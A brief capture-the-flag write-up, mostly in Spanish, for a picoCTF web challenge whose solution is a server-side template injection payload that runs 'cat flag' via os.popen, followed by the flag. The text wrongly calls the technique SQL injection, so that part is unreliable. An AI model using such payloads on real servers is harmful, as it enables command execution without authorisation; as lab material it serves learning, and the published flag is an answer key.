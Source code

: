 
### Descripción 
I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)I heard templating is a cool and modular way to build web apps! Check out my website [here](http://shape-facility.picoctf.net:55361/)!
### Solución
Al igual que en el reto anterior, tenemos que encontrar una inyeccion sql hasta encontrar una adecuada. Teniendo la adecuada, cambiamos el id por un cat para ver la bandera

	{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
	
Solución: **# picoCTF{sst1_f1lt3r_byp4ss_eb2a60e7}**
### Notas adicionales


### Referencias 


